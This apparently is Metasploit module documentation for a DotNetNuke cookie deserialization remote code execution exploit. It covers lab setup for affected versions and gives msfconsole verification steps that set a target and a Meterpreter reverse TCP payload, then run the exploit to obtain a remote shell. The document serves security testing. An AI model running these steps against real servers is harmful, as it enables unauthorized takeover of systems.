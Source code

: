   [https://www.dnnsoftware.com/wiki/how-to-install-dotnetnuke](https://www.dnnsoftware.com/wiki/how-to-install-dotnetnuke)
  
  You will need SQL Server 2005/2008/2008R2/2012 or 2016 installed.
  
  Log in as the super user account and make sure the 404 error page is set to the built-in 404 Error Page.
  Typically, this is already set as the default setting, but during testing I encountered an edge case where an issue during installation caused this value to be set to "None Specified".
  
  Additionally, if you are testing this module from a machine other than the host that the application is installed on, you will need to configure the Site Alias so that it is accessible using a hostname other than `localhost`. Additional firewall rules may need to be configured to allow web access, depending on how you set up the application in IIS.
  
  This module has been tested on DNN v7.0.0 - v9.3.0-RC running on Windows Server 2016.

  
### v5.0.0 - v9.1.0
  No additional configuration required.
  
### v9.1.1+
  While logged in as the super user account, configure the application to use Verified registration. You will also need to configure the SMTP server settings to be valid in order to receive the registration email.

## Verification Steps  

### v5.0.0 - v9.1.0
  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/windows/http/dnn_cookie_deserialization_rce```
  4. Do: ```set RHOST <RHOST>```
  5. Do: ```set RPORT <RPORT>```
  6. Do: ```set PAYLOAD windows/meterpreter/reverse_tcp```
  7. Do: ```set LHOST <LHOST>```
  8. Do: ```set LPORT <LPORT>```
  9. Do: ```check```
  10. **Verify** that you are seeing `The target appears to be vulnerable` in the console
  11. Do: ```exploit```
  12. **Verify** that you get a Meterpreter shell
  
### v9.1.1
  1. Install the application
  2. Configure the application to use Verified Registration
  3. Configure the application's SMTP server settings so that it will send the registration email
  4. Register a new user account and copy the verification code in the link in the registration email
  5. Log in as the new user and navigate to the Edit Profile page. Note the `userId` url path parameter value
  6. Examine the page's source code and search for a `portalId` value that is a positive integer.
  7. Start msfconsole
  8. Do: ```use exploit/windows/http/dnn_cookie_deserialization_rce```
  9. Do: ```set RHOST <RHOST>```
  10. Do: ```set RPORT <RPORT>```
  11. Do: ```set PAYLOAD windows/meterpreter/reverse_tcp```
  12. Do: ```set LHOST <LHOST>```
  13. Do: ```set LPORT <LPORT>```
  14. Do: ```set VERIFICATION_CODE <Verification Code>```
  15. Do: ```set VERIFICATION_PLAIN <{portalId}-{userId}>```
  16. Do: ```set ENCRYPTED true```
  14. Do: ```check```
  15. **Verify** that you are seeing `The target appears to be vulnerable` in the console
  16. Do: ```exploit```
  17. **Verify** that you get a Meterpreter shell
  